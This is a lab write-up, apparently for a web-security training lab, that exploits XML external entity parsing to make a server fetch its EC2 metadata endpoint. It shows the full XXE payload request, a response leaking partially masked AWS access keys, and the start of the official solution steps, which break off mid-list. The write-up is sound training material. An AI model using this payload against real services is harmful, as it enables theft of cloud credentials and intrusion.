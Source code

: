 


#### Exploiting XXE to perform SSRF attacks

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
>
> To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0a00008403e88db5c05a801400130012.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2022-......",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "1l3......jXKCD",
  "SecretAccessKey" : "dsCT......YqX6K1O",
  "Token" : "zcoAOS2......DoCVRaQDx",
  "Expiration" : "2028......"
}"
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE test [ &lt;!ENTITY xxe SYSTEM "http://169.254.169.254/"&gt; ]&gt;</code>
                    </li>
                    <li>
                        Replace the <code>productId</code> number with a reference to the external entity: <code>&amp;xxe;</code>. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
                    </li>
                    <li>